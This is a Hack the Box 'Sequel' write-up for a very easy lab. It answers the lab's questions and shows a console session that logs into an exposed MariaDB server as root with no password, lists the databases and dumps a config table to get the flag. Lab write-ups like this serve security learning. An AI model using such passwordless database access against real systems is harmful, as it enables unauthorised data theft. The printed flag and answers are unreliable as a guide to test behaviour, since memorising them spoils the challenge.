 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: [[SQL]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- *
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Get the flag from the database:

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)

MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)

MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]